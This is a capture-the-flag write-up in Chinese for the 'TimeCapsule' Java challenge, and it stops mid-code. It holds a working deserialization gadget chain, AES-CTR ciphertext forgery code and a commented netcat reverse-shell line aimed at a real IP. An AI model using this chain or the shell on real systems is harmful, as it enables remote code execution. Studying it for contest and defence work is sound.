# 2025国赛暨长城杯AWDP-TimeCapsule完整题解-先知社区

> **来源**: https://xz.aliyun.com/news/17797  
> **文章ID**: 17797

---

# 2025国赛半决赛awdp-TimeCapsule完整题解

## Fix

删掉com.ctf.util.FieldGetterHandler类即可

## Break

审计代码，找到存在反序列化的路由 /api/capsule/import

  
同时依赖是jdk8+jackson，想到直接打jackson的链子：[Spring-Jackson原生链以及解决链子不稳定的问题](https://mak4r1.com/write-ups/spring-jackson%e5%8e%9f%e7%94%9f%e9%93%be/)  
不过这里ObjectInputStream做了一些限制，只能反序列化ctf包下的或java.的类以及数组类型  
  
所以第一点是绕过SafeObjectInputStream的限制实现反序列化RCE  
然后在反序列化前会有一层AES解密  
  
这里的密钥user.getSecretKey()是针对每一个user随机生成的，所以第二点是需要对加解密攻击，触发反序列化。

### 寻找gadget

题目有一个代理类FieldGetterHandler，看到invoke方法可以执行一个任意的getter  
  
其中执行的主体是invoke的参数，比如：

```
proxyInstance.anyMethod(a)
```

则会执行a.getXxx.  
那么就想到了SignedObject类的getObject方法，该方法可以对任意数据进行一次反序列化，达成二次反序列化绕过SafeObjectInputStream限制。  
并且SignedObject是`java.security`下的，也满足SafeObjectInputStream的限制。  
所以我们现在需要实现的就是：

```
readObject -> proxyInstance.anyMethod(signedObject)
```

一开始派神告诉可以用`HashMap.equals`来触发，即触发`proxyInstance.equals(signedObject)`  
但是跟了一遍`HashMap.readObject -> equals`的链子，发现会先对proxyInstance执行hashCode()，由于没有参数，进了代理类的invoke就会报空指针错中断flow执行。  
  
后来想到CC2链子中，用到了PriorityQueue中的compare，似乎能满足任意主体+参数的方法的要求，见[JAVA反序列化漏洞-CC2链](https://mak4r1.com/java/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e-cc2%e9%93%be/)

  
观察到代理类中会把方法的第一个参数作为getter的主体  
所以这里把comparator设为代理对象proxyInstance，x设为signedObject即可触发

```
proxyInstance.compare(signedObject,(E)e)
```

后续就是触发SignedObject的getObject，进而触发二次反序列化打jackson的链子.  
至此成功找到gadget。POC如下（弹计算器）：

```
package com.ctf;

import com.ctf.util.CTRForgeUtil;
import com.ctf.util.CryptoUtils;
import com.ctf.util.FieldGetterHandler;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.node.ArrayNode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.crypto.spec.SecretKeySpec;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.Comparator;
import java.util.HashMap;
import java.util.PriorityQueue;
import java.util.concurrent.ConcurrentHashMap;

public class Main {

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream objo = new ObjectOutputStream(new FileOutputStream("ser.txt"));
        objo.writeObject(obj);
    }

    public static void unserialize() throws Exception{
        ObjectInputStream obji = new ObjectInputStream(new FileInputStream("ser.txt"));
        obji.readObject();

    }

    public static byte[][] generateEvilBytes() throws Exception{
        ClassPool cp = ClassPool.getDefault();
        cp.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = cp.makeClass("evil");
        String cmd = "Runtime.getRuntime().exec("calc");";
        //nc -e /bin/sh 121.199.39.4 3000
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(cp.get(AbstractTranslet.class.getName()));
        byte[][] evilbyte = new byte[][]{cc.toBytecode()};

        return evilbyte;

    }

    public  static <T> void setValue(Object obj,String fname,T f) throws Exception{
        Field filed = obj.getClass().getDeclaredField(fname);
        filed.setAccessible(true);
        filed.set(obj,f);
    }

    public static String getb64(Object obj) throws Exception{
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objout = new ObjectOutputStream(bout);
        objout.writeObject(obj);
        String base64 = Base64.getEncoder().encodeToString(bout.toByteArray());
        return base64;
    }

    public static void main(String[] args) throws Exception {

        // 删除writeReplace
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod wt = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(wt);
        ctClass0.toClass();

        //构造恶意TemplatesImpl
        TemplatesImpl tmp = new TemplatesImpl();
        setValue(tmp,"_tfactory",new TransformerFactoryImpl());
        setValue(tmp,"_name","123");
        setValue(tmp,"_bytecodes",generateEvilBytes());

//        //不稳定的触发
//        ObjectMapper objmapper = new ObjectMapper();
//        ArrayNode arrayNode =objmapper.createArrayNode();
//        arrayNode.addPOJO(tmp);
//
//
//        BadAttributeValueExpException ex = new BadAttributeValueExpException("1"); //反射绕过构造方法限制
//        Field f = BadAttributeValueExpException.class.getDeclaredField("val");
//        f.setAccessible(true);
//        f.set(ex,arrayNode);
//
//        serialize(ex);
//        System.out.println(getb64(ex));
//        System.out.println(getb64(ex).length());
//        unserialize();

        //稳定触发

        AdvisedSupport support = new AdvisedSupport();
        support.setTarget(tmp);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(support);
        Templates proxy = (Templates) Proxy.newProxyInstance(Templates.class.getClassLoader(),new Class[]{Templates.class},handler);

        ObjectMapper objmapper = new ObjectMapper();
        ArrayNode arrayNode =objmapper.createArrayNode();
        arrayNode.addPOJO(proxy);

        BadAttributeValueExpException ex = new BadAttributeValueExpException("1"); //反射绕过构造方法限制
        Field f = BadAttributeValueExpException.class.getDeclaredField("val");
        f.setAccessible(true);
        f.set(ex,arrayNode);

//        serialize(ex);
//        System.out.println(getb64(ex));
//        System.out.println(getb64(ex).length());
//        unserialize();

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) ex, kp.getPrivate(), Signature.getInstance("DSA"));
//        signedObject.getObject();

        FieldGetterHandler handler1 = new FieldGetterHandler();
        setValue(handler1,"fieldName","Object");
        ClassLoader classLoader = Comparator.class.getClassLoader();
        Class<?>[] interfaces = {Comparator.class};
        Comparator proxyInstance = (Comparator) Proxy.newProxyInstance(classLoader, interfaces, handler1);

        Object[] queue = new Object[]{signedObject,123};
        PriorityQueue priorityQueue = new PriorityQueue(1);
        setValue(priorityQueue,"queue",queue);
        setValue(priorityQueue,"comparator",proxyInstance);
        setValue(priorityQueue,"size",2);
        serialize(priorityQueue);
        unserialize();


    }
}
```

（因为有这个代理类，所以也可以二次反序列化后直接打templatesImpl，不用通过jackson来触发readObject->getter了）

### 绕过AES验证触发gadget

看了加解密方法，用的是AES/CTR/nopadding  
  
上网找AES/CTR攻击手段，发现可以根据已知的明文R和对应密文E，还原出一个`keystream`  
由R,E还原出的`keystream`可以伪造和R长度相同的明文的密文。  
举个例子，比如现在使用16位密钥`keykeykeykeykeyk`来用题目方法加密一个test

```
String rawText = "test";
byte[] rawBytes = rawText.getBytes();
String encryptData = CryptoUtils.encrypt(rawBytes,new SecretKeySpec("keykeykeykeykeyk".getBytes(), "AES"));
System.out.println(encryptData);
byte[] decryptData = CryptoUtils.decrypt(encryptData,new SecretKeySpec("keykeykeykeykeyk".getBytes(), "AES"));
System.out.println(new String(decryptData));
```

```
zYFj95TEkxwzRqii328SBHUnx3E=
test
```

那么利用这对明文和密文，就可以用如下脚本还原出keystream，然后伪造明文长度和"test"相同的密文，这里加密"best"

```
import base64
from Crypto.Util.strxor import strxor

def recover_keystream(base64_data: str, known_plaintext: bytes) -> (bytes, bytes):
    """
    从 Java 加密返回的 Base64 数据中恢复出 IV 和 keystream。
    参数:
      base64_data: 包含 IV 和密文的 Base64 编码字符串
      known_plaintext: 对应的已知明文（必须与密文对应部分长度一致）
    返回:
      iv: 16 字节的 IV
      keystream: 与 known_plaintext 长度一致的 keystream
    """
    combined = base64.b64decode(base64_data)
    iv = combined[:16]             # 前16字节为 IV
    ciphertext = combined[16:]     # 后面的部分为密文

    # 检查密文长度是否足够恢复 keystream
    if len(ciphertext) < len(known_plaintext):
        raise ValueError("密文长度不足，可能数据不完整")
    
    # 仅取与 known_plaintext 长度对应的部分进行恢复
    ciphertext_part = ciphertext[:len(known_plaintext)]
    keystream = strxor(known_plaintext, ciphertext_part)
    return iv, keystream

def forge_ciphertext(keystream: bytes, fake_plaintext: bytes) -> bytes:
    """
    利用恢复的 keystream 对伪造明文加密，生成伪造密文。
    参数:
      keystream: 已知 keystream（长度必须与 fake_plaintext 一致）
      fake_plaintext: 目标伪造明文
    返回:
      forged_ciphertext: 伪造密文（字节串）
    """
    if len(keystream) != len(fake_plaintext):
        raise ValueError("伪造明文长度必须与恢复的 keystream 长度一致")
    forged_ciphertext = strxor(fake_plaintext, keystream)
    return forged_ciphertext

def main():
    # 示例输入数据：Java 加密返回的 Base64 编码字符串（IV + 密文）
    base64_data = "gi+4/+w0aSun7bQ8fwiQR7NMWnM="
    # 已知明文，这里为 "test" ，共 4 字节
    known_plaintext = b"test"
    
    # 恢复 IV 和 keystream
    iv, keystream = recover_keystream(base64_data, known_plaintext)
    print("Recovered IV:", iv.hex())
    print("Recovered Keystream:", keystream.hex())

    # 用户指定的伪造明文，长度必须和 known_plaintext 一致
    fake_plaintext = b"best"  # 例如伪造 "best" 替换 "test"
    
    forged_ciphertext = forge_ciphertext(keystream, fake_plaintext)
    print("Forged Ciphertext (hex):", forged_ciphertext.hex())

    # 拼接 IV 与伪造密文，并编码成 Base64，构造最终伪造的加密数据
    forged_combined = iv + forged_ciphertext
    forged_base64 = base64.b64encode(forged_combined).decode()
    print("Forged Encrypted Data (Base64):", forged_base64)

if __name__ == "__main__":
    main()
```

  
用拿到的密文在java里试一下解密，发现成功

```
byte[] decryptData = CryptoUtils.decrypt("zYFj95TEkxwzRqii328SBGMnx3E=",new SecretKeySpec("keykeykeykeykeyk".getBytes(), "AES"));
System.out.println(new String(decryptData));
```



> 具体密码学原因没有深入研究，密码学了解不多 这里也不敢多说:）

总之就是，只要有和待伪造的明文长度相同的明文-密文对，就可以完成密文的伪造。

那么我们这里实际上要加密的是我们gadget的序列化byte[]数据，我们需要看一下它的长度

```
public static byte[] testLength(Object obj) throws Exception {
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(bos);
    oos.writeObject(obj);
    oos.close();
    System.out.println("exp原文长度："+bos.toByteArray().length);
    return bos.toByteArray();
}
```

testLength(priorityQueue)  
  
那么我们现在需要长度位3607的明文以及对应密文。这里就要用到这两个路由：  
  
`/api/capsules`可以导入创建一个capsule，我们可以控制其content的内容。  
`/api/capsules/{id}/export`可以查看以我们的key加密后的capsule序列化数据。

因此我们可以通过控制content的长度构造一个和我们恶意序列化数据长度相等（即3607）的TimeCapsule对象序列化数据，这样我们拿到这个TimeCapsule的加密数据，就可以还原出符合要求的keystream，进而伪造我们恶意序列化数据的密文了。  
content="b"对应的capsule序列化长度是200多，所以要加写三千多长度的content  
  
然后在`/api/capsules/5/export`拿加密数据  
  
然后写java伪造我们的密文，代码如下  
这里这个函数输入的是已知明文，已知密文，待伪造加密明文

```
package com.ctf.util;

import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import java.util.Base64;

public class CTRForgeUtil {

    public static String forgeCTR(String originalBase64Ciphertext, byte[] knownPlaintext, byte[] fakePlaintext) throws Exception {
        System.out.println("knownPlaintext.length: " + knownPlaintext.length+"\tfakePlaintext.length:"+fakePlaintext.length);
        if (knownPlaintext.length != fakePlaintext.length) {
            throw new IllegalArgumentException("knownPlaintext and fakePlaintext must be the same length");
        }

        // 解码 base64，加密数据格式: [IV(16)] + [密文]
        byte[] combined = Base64.getDecoder().decode(originalBase64Ciphertext);
        if (combined.length < 16 + knownPlaintext.length) {
            throw new IllegalArgumentException("Ciphertext is too short.");
        }

        // 提取 IV
        byte[] iv = new byte[16];
        System.arraycopy(combined, 0, iv, 0, 16);

        // 提取用于恢复 keystream 的一段密文
        byte[] knownCiphertextPart = new byte[knownPlaintext.length];
        System.arraycopy(combined, 16, knownCiphertextPart, 0, knownPlaintext.length);

        // 恢复 keystream: keystream = ciphertext ^ knownPlaintext
        byte[] keystream = new byte[knownPlaintext.length];
        for (int i = 0; i < knownPlaintext.length; i++) {
            keystream[i] = (byte) (knownCiphertextPart[i] ^ knownPlaintext[i]);
        }

        System.out.println("原文"+new String(originalBase64Ciphertext)+"\tkeystream长度"+keystream.length);

        // 构造伪造密文: fakeCiphertext = fakePlaintext ^ keystream
        byte[] forgedCiphertext = new byte[fakePlaintext.length];
        for (int i = 0; i < fakePlaintext.length; i++) {
            forgedCiphertext[i] = (byte) (fakePlaintext[i] ^ keystream[i]);
        }

        // 拼接 IV + forgedCiphertext
        byte[] forgedCombined = new byte[16 + forgedCiphertext.length];
        System.arraycopy(iv, 0, forgedCombined, 0, 16);
        System.arraycopy(forgedCiphertext, 0, forgedCombined, 16, forgedCiphertext.length);

        // 返回新的 Base64 编码密文
        return Base64.getEncoder().encodeToString(forgedCombined);
    }
}
```

还原出密文后访问/api/capsule/import触发反序列化即可  
  
成功触发命令执行  
完整exp如下（仅供参考，需要先访问register生成user和密钥，然后序列化数据的长度可能会不稳定，如3605等）(用了上面的CTRForgeUtil以及题目涉及的类)

```
package com.ctf;

import com.ctf.util.CTRForgeUtil;
import com.ctf.util.CryptoUtils;
import com.ctf.util.FieldGetterHandler;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.node.ArrayNode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.aop.framework.AdvisedSupport;

import javax.crypto.spec.SecretKeySpec;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.Comparator;
import java.util.HashMap;
import java.util.PriorityQueue;
import java.util.concurrent.ConcurrentHashMap;

public class Main {

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream objo = new ObjectOutputStream(new FileOutputStream("ser.txt"));
        objo.writeObject(obj);
    }

    public static void unserialize() throws Exception{
        ObjectInputStream obji = new ObjectInputStream(new FileInputStream("ser.txt"));
        obji.readObject();

    }

    public static byte[][] generateEvilBytes() throws Exception{
        ClassPool cp = ClassPool.getDefault();
        cp.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = cp.makeClass("evil");
        String cmd = "Runtime.getRuntime().exec("calc");";
        //nc -e /bin/sh 121.199.39.4 3000
        cc.makeClassInitializer().insertBefore(cmd);
        cc.setSuperclass(cp.get(AbstractTranslet.class.getName()));
        byte[][] evilbyte = new byte[][]{cc.toBytecode()};

        return evilbyte;

    }

    public  static <T> void setValue(Object obj,String fname,T f) throws Exception{
        Field filed = obj.getClass().getDeclaredField(fname);
        filed.setAccessible(true);
        filed.set(obj,f);
    }

    public static String getb64(Object obj) throws Exception{
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objout = new ObjectOutputStream(bout);
        objout.writeObject(obj);
        String base64 = Base64.getEncoder().encodeToString(bout.toByteArray());
        return base64;
    }

    public static void main(String[] args) throws Exception {


        // 删除writeReplace
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass0 = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod wt = ctClass0.getDeclaredMethod("writeReplace");
        ctClass0.removeMethod(wt);
        ctClass0.toClass();

        //构造恶意TemplatesImpl
        TemplatesImpl tmp = new TemplatesImpl();
        setValue(tmp,"_tfactory",new TransformerFactoryImpl());
        setValue(tmp,"_name","123");
        setValue(tmp,"_bytecodes",generateEvilBytes());

//        //不稳定的触发
//        ObjectMapper objmapper = new ObjectMapper();
//        ArrayNode arrayNode =objmapper.createArrayNode();
//        arrayNode.addPOJO(tmp);
//
//
//        BadAttributeValueExpException ex = new BadAttributeValueExpException("1"); //反射绕过构造方法限制
